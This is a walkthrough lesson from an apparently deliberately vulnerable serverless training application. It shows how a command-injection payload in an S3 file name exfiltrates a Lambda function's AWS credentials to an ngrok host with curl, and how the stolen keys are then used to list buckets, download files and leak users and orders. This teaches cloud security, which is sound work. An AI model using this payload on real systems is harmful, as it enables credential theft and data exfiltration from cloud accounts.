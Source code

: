 # LESSON #7: Over-Privileged Function

Maybe one of the most fundamental security vulnerabilities in serverless applications is over-privileged functions. [Previous research](https://www.protego.io/protego-labs-finds-nearly-all-serverless-application-functions-at-risk/) has found that almost all functions are configured with more permissions than what they actually need.

Let's see what we can do with that:

We already saw that one of the functions is vulnerable to command injection through an [insecure s3 configuration](../LESSONS/LESSON_04.md), so we can leverage that and steal the function's keys. By stealing the keys (AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY and AWS_ACCESS_KEY_ID), we will be able to assume the function's temporary execution role.

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;b=`env|base64 --wrap=0`;curl 0c971764.ngrok.io?data=$b;echo x.raw' --profile hacker
```

It's not hard to find the relevant keys in the base64 string that we got:

![alt base64-keys](https://i.imgur.com/ig8iV2J.png)

Decoding them (`echo <BASE64> | base64 --decode`) will reveal (partial info):
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQXXXXXXXXXXXXXXXPJnxYa8D85UCLwAXXXXXXXXXXXXXXXRUkQWDwu4NMqrE+dcRXXXXXXXXXXXXXXXrTB6PxZzyfw0pDFUJHXXXXXXXXXXXXXXXAFfF6kR5AjFSQd/SkjymXXXXXXXXXXXXXXXO+1JfHtJBFqwI7VnaHMcCoDp4O/WcXXXXXXXXXXXXXXXCNW886DrHxciDCXXXXXXXXXXXXXXXZt3k9f3WuwI/FfXXXXXXXXXXXXXXXp43gtQYe3IV1sCpPs/kUneXXXXXXXXXXXXXXXiZGU63V79bpu/Dt3fzO0eSHAO6ii4t9/gBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/DVSA-SEND-RECEIPT-EMAIL
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/12/23/[$LATEST]ce7961b403ba4b47806460db4bc62944
AWS_EXECUTION_ENV=AWS_Lambda_python2.7
AWS_LAMBDA_FUNCTION_NAME=DVSA-SEND-RECEIPT-EMAIL
PATH=/usr/local/bin:/usr/bin/:/bin:/opt/bin
SOURCE_EMAIL=tal+dvsa+noreply@protego.io
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxI8g7+XkMv/6tuC7xxxxxxxxxx
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=us-east-1
ORDERS_TABLE=DVSA-ORDERS-DB
AWS_ACCESS_KEY_ID=ASIAYXXXXXXXXXXXXXXX
PYTHONPATH=/var/runtime
_HANDLER=lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=256
```
Let's copy the relevant data into environment variables:
```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Or, into our AWS credentials - `~/.aws/credentials` (which is the default location):
![alt stolen-keys](https://i.imgur.com/tFXFZEj.png)

By default, temporary security credentials for an IAM user are valid for a maximum of 12 hours (and therefore, long gone in the screenshot). In this time frame, we can use these keys to run any AWS command that is aligned with the functions permissions. Since the function is (way) over-privileged, we can start stealing sensitive data and performing actions on the account.

For example:

(1) listing all files on s3:
![alt ls-bucket](https://i.imgur.com/Cg8cBYs.png)

(2) downloading a file from the bucket:
![alt download-receipt](https://i.imgur.com/3hMxfZP.png)

We can of course, also delete files. But, we are not limited to the S3! Let's explore further:

(3) leaking all users:
![alt leak-users](https://i.imgur.com/JVkreVB.png)

(4) orders from dynamodb:
![alt leak-orders](https://i.imgur.com/WdBSzVG.png)

And many more. I'll leave that to you to explore.

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

